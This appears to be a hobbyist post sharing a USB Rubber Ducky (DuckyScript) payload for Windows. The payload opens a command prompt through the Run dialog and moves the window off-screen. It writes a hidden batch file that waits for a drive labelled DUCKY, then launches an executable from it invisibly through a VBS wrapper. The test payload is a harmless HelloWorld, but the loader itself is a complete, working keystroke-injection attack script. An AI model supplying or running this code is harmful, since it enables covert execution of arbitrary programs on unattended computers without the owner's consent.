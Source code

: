The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING START %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') 
do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %myd%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

The encoders now support the repeat command, so should only be a problem if you are using an old encoder. Encoders also now support white space in the duck script, so functions have been separated with white space. 

